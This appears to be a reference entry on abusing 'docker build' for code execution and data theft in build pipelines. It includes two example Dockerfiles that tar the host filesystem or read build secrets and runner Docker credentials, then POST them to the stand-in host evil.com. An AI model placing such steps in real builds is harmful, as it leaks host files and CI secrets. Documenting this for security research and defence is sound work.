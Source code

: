 ```yaml
---
title: docker
tags:
  - cli
  - config-file
  - eval-sh
references: 
files: [Dockerfile]
---
```


Docker is a container tool to create OCI image and run containers. The build stage can be configured using a Dockerfile. See [Dockerfile reference](https://docs.docker.com/reference/dockerfile/) and [Dockerfile overview](https://docs.docker.com/build/concepts/dockerfile/). 

## `docker build`

`docker build <path>` allow RCE in the context of the build:
  - if the Dockerfile can be modified, by adding `RUN <sh_cmd>`.
  - if the input of `RUN` is controllable.
Since the build command set the context to a copy of the current folder, we can't the filesystem. If we have control over the context path `docker build <controlled_path> -f <Dockerfile>`, we can exfiltrate any data from the host.


Exfiltrate every file available
```Dockerfile
FROM alpine/curl
RUN --mount=type=bind,source=/,target=/host \
    tar -czf /src.tar.gz /host/*;
RUN curl -X POST -d "/src.tar.gz" http://evil.com
```

Exflitrating runner secrets
```Dockerfile
FROM alpine/curl
ADD /home/runner/.docker/config.json config.json
RUN --mount=type=secret,id=<secret_name> \
    curl -X POST -d "@/run/secrets/<secret_name>" http://evil.com
```

